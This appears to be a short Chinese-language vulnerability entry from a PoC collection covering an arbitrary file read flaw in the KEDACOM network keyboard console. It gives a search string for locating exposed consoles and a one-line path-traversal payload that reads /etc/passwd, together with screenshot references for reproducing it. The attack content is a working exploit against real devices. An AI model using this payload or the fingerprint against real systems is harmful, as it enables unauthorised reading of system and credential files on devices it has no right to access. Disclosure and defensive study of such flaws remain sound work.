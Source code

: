 # 科达 网络键盘控制台 任意文件读取漏洞

# 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
KEDACOM 网络键盘控制台
```

## 网络测绘

```
"网络键盘控制台"
```

## 漏洞复现

登录页面

![image-20220525145610413](/images/202205251456491.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](/images/202205251456381.png)

